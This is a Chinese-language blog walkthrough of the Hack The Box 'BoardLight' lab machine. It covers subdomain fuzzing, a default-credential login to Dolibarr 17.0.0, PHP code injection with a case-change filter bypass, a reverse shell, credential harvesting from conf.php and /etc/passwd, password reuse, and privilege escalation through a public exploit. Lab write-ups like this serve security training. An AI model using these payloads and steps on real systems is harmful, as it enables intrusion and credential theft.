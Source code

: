 ```yaml
---
title: Hack The Box BoardLight
description: Hack The Box BoardLight 靶机 WP
pubDate: 09 24 2024
image: https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-8.png
categories:
  - 网络安全
tags:
  - 靶场
  - Hack The Box靶场
  - 渗透测试
---
```


Hack The Box BoardLight 靶机

靶机IP：10.10.11.11

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-1.png)

## Web 渗透

放 Goby 里扫描

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-5.png)

发现开启 80 端口，查看 Web 页面

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-2.png)

发现一个域名

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-3.png)

```shell
board.htb
```

放进 Host 解析

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-4.png)

fuzz 一下子域名

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://board.htb/" -H "Host: FUZZ.board.htb"
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-6.png)

把 517 过滤掉

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://board.htb/" -H "Host: FUZZ.board.htb" --hl 517
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-7.png)

得到子域名 `crm.board.htb`，添加到 Host 里，访问

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-8.png)

得到一个 CMS 的登录界面，CMS 为 `Dolibarr 17.0.0`，查找默认密码

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-9.png)

可登录

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-10.png)

发现可以添加网页

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-11.png)

那就简单了，创建页面 abc

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-12.png)

创建时提示

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-13.png)

Website 是定时删除的，这里注意一下。重新创建，编辑 HTML 源，添加命令检查一下能不能执行

```shell
<?php echo system("whoami");?>
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-14.png)

额，禁止动态命令？大小写绕一下试试？

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-15.png)

可以了。准备一个 php反弹 shell 来反弹就可以了

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-16.png)

OK 拿到 shell

## 内网渗透

找 flag

```shell
find / -type f -name "user.txt"
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-18.png)

没有？说明在其他用户里，看看数据库配置里有没有啥信息泄露

```shell
find /var/www/html/crm.board.htb -type f -name "*conf*"
```

发现文件

```shell
/var/www/html/crm.board.htb/htdocs/conf/conf.php
```

得到一个用户账号密码

```shell
dolibarrowner/serverfun2$2023!!
```

主机上有这个用户吗？

```shell
cat /etc/passwd
```

没有，看看 Home 下面到底有几个用户

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-19.png)

有一个 `larissa`。试试登录一下 `larissa/serverfun2$2023!!`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-20.png)

登录进来了，找 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-21.png)

又到了喜闻乐见的 Linux 提权环节

用 `linux-smart-enumeration` 试试。

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-22.png)

DirtyPipe？试试

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-23.png)

失败了……看看linPEAS 能出啥

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-24.png)

额……大差不差，都用不了。然后下面也没啥东西了。然后看见 `enlightenment` 标红。

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-25.png)

桌面？

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-26.png)

好了，找 exp 直接利用就行了

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-27.png)

成功。拿到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-28.png)
